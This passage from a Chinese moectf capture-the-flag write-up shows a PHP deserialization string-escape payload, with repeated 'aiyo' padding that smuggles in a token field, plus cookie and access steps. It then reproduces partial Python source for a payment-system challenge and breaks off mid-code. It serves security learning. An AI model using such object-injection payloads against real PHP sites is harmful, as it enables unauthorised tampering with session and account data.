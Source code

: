 而第二个箭头后的会被当做多余的丢弃

![image-20221015211045354](moectf.assets\image-20221015211045354.png)

payload

```php
?r=a&s=baiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyo";s:5:"token";s:5:"baizi";}
新增cookie moe=1
然后访问a.php
```

### 支付系统

```py
import os
import uuid
from quart import Quart, render_template, redirect, jsonify, request, session
from hashlib import pbkdf2_hmac
from enum import IntEnum
from tortoise import fields
from tortoise.models import Model
from tortoise.contrib.quart import register_tortoise
from httpx import AsyncClient

app = Quart(__name__)
app.secret_key = os.urandom(16)


class TransactionStatus(IntEnum):
    SUCCESS = 0
    PENDING = 1
    FAILED = 2
    TIMEOUT = 3


class Transaction(Model):
    id = fields.IntField(pk=True)
    user = fields.UUIDField()
    amount = fields.IntField()
    status = fields.IntEnumField(TransactionStatus)
    desc = fields.TextField()
    hash = fields.CharField(64, null=True)

    def __init__(self, **kwargs):
        super().__init__()
        for k, v in kwargs.items():
            self.__setattr__(k, v)


async def do_callback(transaction: Transaction):
    async with AsyncClient() as ses:
        transaction.status = int(TransactionStatus.FAILED)
        data = (
            f'{transaction.id}'
            f'{transaction.user}'
            f'{transaction.amount}'
            f'{transaction.status}'
            f'{transaction.desc}'
        ).encode()
        await ses.post(f'http://localhost:8000/callback', data={
            'id': transaction.id,
            'user': transaction.user,
            'amount': transaction.amount,
```